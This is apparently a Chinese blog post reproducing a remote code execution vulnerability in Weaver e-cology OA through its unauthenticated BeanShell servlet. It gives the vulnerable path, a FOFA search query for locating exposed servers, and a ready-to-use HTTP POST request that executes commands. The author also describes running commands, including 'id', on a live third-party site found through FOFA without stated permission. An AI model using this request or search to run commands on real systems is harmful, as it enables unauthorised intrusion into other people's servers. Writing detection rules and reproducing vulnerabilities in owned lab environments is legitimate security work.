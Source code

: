 ```yaml
---
layout:     post
title:      泛微e-cology OA系统远程代码执行漏洞
subtitle:   泛微e-cology OA系统远程代码执行漏洞
date:       2019-09-23
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。
## 0x00 漏洞介绍
* 漏洞名称：泛微e-cology OA系统远程代码执行漏洞
* CVE编号：N/A
* 发布时间：2019-09-19
* 漏洞说明：泛微 e-cology OA 系统自带 BeanShell 组件且开放未授权访问，攻击者调用 BeanShell 组件接口可直接在目标服务器上执行任意命令。
* 影响范围：泛微 e-cology<=9.0
* 修复建议：1、关闭 BeanShell 接口； 2、安装厂商发布的安全补丁

## 0x01 复现漏洞
从漏洞介绍中，我们知道这是一个未授权访问导致的远程代码执行漏洞，以下接口就是未授权范围的一个接口：
```
/weaver/bsh.servlet.BshServlet
```

由于本地环境环境不好搭建，我先从FOFA网络空间搜索引擎中先搜一个站点获取到泛微e-cology的指纹和尝试输出打印命令：
FOFA搜索语法如下：
```
app="泛微-协同办公OA"&&app="泛微协同商务系统"
```
我选一个存在漏洞的网址进行下无损测试
在域名后面拼接上漏洞路径后访问如下，包含关键词"BeanShell Test Servlet"，这在写策略的时候是需要的，需要记录一下：
![图片](../../../../img/ecologyoa_rce_1.png)

先不着急执行命令，我们来找一下Web指纹，我发现Set-Cookie中含有ecology关键词，那么就以这个来作为泛微e-cology OA系统的指纹规则：
```
Set-Cookie: ecology_JSessionId
```

然后我们在执行一个打印输出命令并对HTTP请求进行抓取，并对HTTP包的一些字段进行删除，最简HTTP请求包如下所示：
```
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: $HOST_PORT$
Content-Length: 50
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36

bsh.script=exec%28%22echo+security%22%29%3B%0D%0A%0D%0A%0D%0A%0D%0A
```

最后我还是没忍住，输入了一个id命令查询了一下用户ID，如下图所示，你没有看错就是最高权限！
吓得我急忙关闭。
![图片](../../../../img/ecologyoa_rce_2.png)
## 0x02 总结
今天遇到的最多的就是问题，主要是扫描器还没很完善，在正则表达式的匹配上面有问题，花了很多时间，一直在搞正则，没想到是程序设计的问题。
保存漏洞策略的时候也遇到了保存失败的问题，忘记了Windows下不能以有一些特殊字符来命令文件，比如大于号小于号问好等等。
